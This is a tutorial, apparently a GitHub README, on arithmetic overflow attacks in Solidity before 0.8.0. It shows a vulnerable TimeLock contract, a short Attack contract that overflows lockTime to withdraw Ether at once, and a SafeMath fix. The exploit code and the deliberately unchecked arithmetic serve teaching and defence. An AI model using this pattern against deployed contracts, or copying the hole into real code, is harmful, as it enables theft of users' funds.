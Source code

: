# Arithmetic Overflow / Underflow Attack in Solidity

---

## 1. What is Arithmetic Overflow / Underflow in Solidity?

* In Solidity versions **<0.8.0**, arithmetic operations on `uint` (unsigned integers) **do not revert** when they exceed their maximum or minimum values.
* Instead, they **wrap around**:

  * **Overflow**: if result > `2^256 - 1`, it wraps back to `0`.

    ```solidity
    uint8 x = 255;     
    x = x + 1; // x becomes 0  
    ```
  * **Underflow**: if result < `0`, it wraps around to the maximum value.

    ```solidity
    uint8 y = 0; 
    y = y - 1; // y becomes 255
    ```

This behavior can be exploited if contracts rely on arithmetic for security conditions.

---

## 2. Understanding the Vulnerable Contract (`TimeLock`)

The **TimeLock** contract is meant to:

* Allow deposits.
* Force users to wait at least **1 week** before withdrawing.
* Let users extend their lock time.

### Functions:

* `deposit()`:

  * Stores deposited Ether in `balances[msg.sender]`.
  * Sets `lockTime[msg.sender] = block.timestamp + 1 weeks`.

* `increaseLockTime(uint256 _secondsToIncrease)`:

  * Increases the lock time.
  * **Vulnerability**: If `lockTime` overflows, it can wrap to a very small value or even `0`.

* `withdraw()`:

  * Requires:

    * The user has funds.
    * `block.timestamp > lockTime[msg.sender]`.
  * Transfers funds.

---

## 3. The Attack

The `Attack` contract exploits the overflow.

### Attack Strategy:

1. Deposit Ether (so lockTime is set to `now + 1 week`).
2. Calculate how much to **increase** lock time so it overflows back to `0`:

   ```solidity
   x = type(uint256).max + 1 - lockTime[address(this)]
   ```

   * Here `type(uint256).max = 2^256 - 1`.
   * Adding this value causes:

     ```
     lockTime + x = 2^256 = 0 (wrapped around)
     ```
3. After overflow, `lockTime[address(this)]` becomes `0`.
4. Since `block.timestamp > 0`, withdrawal succeeds immediately.

---

## 4. Walkthrough of the Given Code

### TimeLock

```solidity
function deposit() external payable {
    balances[msg.sender] += msg.value; // Track user funds
    lockTime[msg.sender] = block.timestamp + 1 weeks; // Enforce 1 week wait
}
```

```solidity
function increaseLockTime(uint256 _secondsToIncrease) public {
    lockTime[msg.sender] += _secondsToIncrease; // Vulnerable: no overflow check
}
```

```solidity
function withdraw() public {
    require(balances[msg.sender] > 0, "Insufficient funds");
    require(block.timestamp > lockTime[msg.sender], "Lock time not expired");

    uint256 amount = balances[msg.sender];
    balances[msg.sender] = 0;

    (bool sent,) = msg.sender.call{value: amount}("");
    require(sent, "Failed to send Ether");
}
```

### Attack

```solidity
function attack() public payable {
    timeLock.deposit{value: msg.value}();

    // Craft malicious lock time increment
    timeLock.increaseLockTime(
        type(uint256).max + 1 - timeLock.lockTime(address(this))
    );

    // Withdraw immediately (lockTime = 0 after overflow)
    timeLock.withdraw();
}
```

---

## 5. Why This Works Only in Solidity <0.8.0

* In Solidity `0.8.0` and above, arithmetic overflow/underflow **throws an error** automatically.
* That’s why in newer contracts, this attack won’t work unless the developer explicitly disables checks with `unchecked { ... }`.

---

## 6. Fixing the Vulnerability

To fix it (for Solidity <0.8.0):

* Use **SafeMath** library (from OpenZeppelin) to handle overflows safely.

Example:

```solidity
using SafeMath for uint256;

function increaseLockTime(uint256 _secondsToIncrease) public {
    lockTime[msg.sender] = lockTime[msg.sender].add(_secondsToIncrease);
}
```

In Solidity ≥0.8.0:

* No extra library is needed since overflow checks are built-in.

---

✅ In short:
This exploit relies on **overflowing the `lockTime`** so that the waiting period is bypassed, allowing instant withdrawal.
